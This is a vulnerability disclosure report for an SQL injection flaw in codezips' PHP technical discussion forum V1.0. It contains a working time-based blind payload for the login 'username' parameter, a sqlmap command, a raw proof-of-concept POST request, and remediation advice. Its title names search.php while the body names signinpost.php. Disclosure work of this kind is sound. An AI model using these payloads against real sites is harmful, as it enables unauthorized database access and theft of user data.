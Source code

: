 # Technical Discussion Forum Using PHP With Source Code  V1.0 search.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Technical Discussion Forum Using PHP With Source Code V1.0`

## Software Link

- https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the 'signinpost.php' file of  the 'Technical Discussion Forum Using PHP With Source Code ' project. The reason for this issue is that attackers inject malicious code from the parameter  'username' and use it directly in SQL queries without the need for  appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized  operations.

  ![](./image/1.png)

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Technical Discussion Forum Using PHP With Source Code", zhangjiale  discovered a critical SQL injection vulnerability in the "signinpost.php" file. This vulnerability stems from insufficient  user input validation of the 'username' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information. Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: Username Parameter

```
sqlmap resumed the following injection point(s) from stored session:
Parameter: username (POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=test' AND (SELECT 7188 FROM (SELECT(SLEEP(5)))JiSV) AND 'CsMe'='CsMe&password=12323&submit=SignIn
```

<img src="./image/2.png" style="zoom:150%;" />

```
//sqlmap
python sqlmap.py -r url.txt --current-db --current-user --is-dba
```

```
poc
POST /signinpost.php HTTP/1.1
Host: 192.168.75.220
Content-Length: 42
Cache-Control: max-age=0
Origin: http://192.168.75.220
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.75.220/signin.php
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: metabase.DEVICE=e51030e7-51d8-429c-b737-59e6ee18ae6c; __test=1; PHPSESSID=9vhd24i6sjknqqcj80ddhqsbj3
Connection: close

username=test&password=12323&submit=SignIn
```

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

